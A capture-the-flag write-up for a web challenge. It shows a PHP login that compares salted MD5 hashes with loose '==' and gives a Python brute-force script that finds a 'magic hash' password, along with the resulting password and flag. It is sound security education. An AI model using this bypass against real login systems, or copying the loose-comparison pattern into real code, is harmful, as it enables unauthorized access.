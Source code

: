 # WM03
> 250pts

## Briefing
> Visit the site at https://cfta-wm03.allyourbases.co and find a way to bypass the password check.

## Solution
Going to the source page, we can see that the logic for the login is as below:
```html
<!--
        TODO: remove, taken from OSS project, login contains:
        return function ($event) {
            require_once("flag.php");
            $hash = "0e747135815419029880333118591372";
            $salt = "e361bfc569ba48dc";
            if (isset($event['password']) && is_string($event['password'])) {
                if (md5($salt . $event['password']) == $hash) {
                    return $flag;
                }
            }
            return "Incorrect";
        };
    -->
```

We can exploit the comparison ```==```. Essentially, we can find another hash starting with `0e` that will return true if compared using the ```==``` operator to the given hash. There is more information about this here: https://www.whitehatsec.com/blog/magic-hashes/.

Looking at the above logic, we can see that we need a password that when hashed using MD5 and the given salt, returns a hash that begins with `0e` and is 32 digits long, including the `0e`. Hashes cannot be reversed, so we can instead write a python script that will test hashes until we get the correct one (it takes a while so you might want to run it in the background):
```python
import hashlib

salt = "e361bfc569ba48dc"

i = 100000000

while 1:
    password = salt + str(i)
    password = password.encode('utf8')

    new_hash = hashlib.md5(password).hexdigest()
    if new_hash[0:2] == "0e" and new_hash[2:32].isdigit():
        print(password, str(i), new_hash)
        exit(0)
    i += 1
```
The output of the script is `b'e361bfc569ba48dc803544664' 803544664 0e664400602231670239629332728713`. We log in with `803544664` and get the flag.

## Flag
Flag: `theLOOSEtheMATH&theTRUTHY`
